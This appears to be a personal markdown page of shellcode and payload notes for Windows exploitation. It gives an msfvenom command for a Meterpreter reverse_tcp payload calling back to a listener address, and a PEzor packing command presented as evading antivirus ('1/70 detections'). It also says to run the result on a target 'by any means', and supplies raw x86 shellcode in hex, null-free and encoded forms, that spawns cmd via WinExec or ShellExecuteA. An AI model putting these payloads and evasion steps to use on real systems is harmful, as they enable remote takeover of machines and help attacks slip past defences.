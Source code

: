 # Shellcode Notes

## [⬅ Back to Index](../README.md)

The following are my helpful short opcodes to open Command Prompt for testing against vulnerable apps.

### Reference

* [1] <https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-showwindow>

### Links

* [Helpful Opcode Chemistry table](http://sparksandflames.com/files/x86InstructionChart.html)

---

## FUD packer by phra - PEzor

### Build venom payload to connect back to our shell

* `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.150.114 LPORT=8081 -o /opt/lol64 --format raw`

### Run phra's packer

* PEzor located here: <https://github.com/phra/PEzor>
* `bash PEzor/PEzor.sh -64 -sgn -text -syscalls -sleep=42 lol64`

### 1/70 detections on Virustotal

Run the exe on our Win 10 target by any means.

Boom, full meterpreter via multihandler!

---

## Raw shellcode

### Win32 - WinExec(A,B) w/ SW_HIDE

```asm
33c0        ; Clear out eAX
50          ; Use "0" for (B) of winexec if we just want the smallest shellcode
            ; "0" from eAX will be equivalent to SW_HIDE constant [1].
68636d6400  ; Push "cmd" (A)
8bcc        ; Mov ecx,esp
53          ; Push eBX (B)
51          ; Push eCX (A)
b86ef47875  ; My location of winexec(A,B) in kernel32 DLL, ASLR will change this on every boot.
ffd0        ; Call eAX (fire!)

Full:
\x33\xc0\x50\x68\x63\x6d\x64\x00\x8b\xcc\x53\x51\xb8\x6e
\xf4\x78\x75\xff\xd0

Null-free:
\x33\xdb\xbb\x52\x5c\x53\xef\x81\xc3\x11\x11\x11\x11\x53
\x8b\xdc\x33\xc0\x50\x53\xb8\x6e\xf4\x78\x75\xff\xd0

SGN Encoded (single round):
\xba\x20\x8e\xae\xc7\xd9\xe8\xd9\x74\x24\xf4\x5e\x2b\xc9
\xb1\x05\x31\x56\x15\x83\xc6\x04\x03\x56\x11\xe2\xd5\xbd
\x6e\x97\x7d\xa1\x03\x7c\x7d\xae\x10\x2f\x2c\x08\xc6\x24
\xb6\x1d\xe8\x15
```

### Win32 - ShellExecuteA w/ SW_SHOW

#### Issue: may require vulnerable app to have shell32 DLL loaded, check with procexp

```asm
68636d6400  ; push "cmd"
8bdc        ; Mov ebx, esp
6a00        ; Push nullbyte to end "open" string
686f70656e  ; Push "open"
8bcc        ; Mov ecx, esp
6a05        ; Push "5" for SW_SHOW constant [1].
33c0        ; Xor eax with itself (0 it out)
50          ; Push eax (null, or "0")
50          ; Push eax
53          ; Push ebx
51          ; Push ecx
50          ; Push eax
b8c0877a76  ; My location of ShellExecuteA(x,x,x,x,x,x) in shell32 DLL, ASLR will change this on every boot.
ffd0        ; Call eax

Full:
\x68\x63\x6d\x64\x00\x8b\xdc\x6a\x00\x68\x6f\x70\x65\x6e\x8b\xcc\x6a\x05\x33\xc0\x50\x50\x53\x51\x50\xb8\xc0\x87\x7a\x76\xff\xd0
```
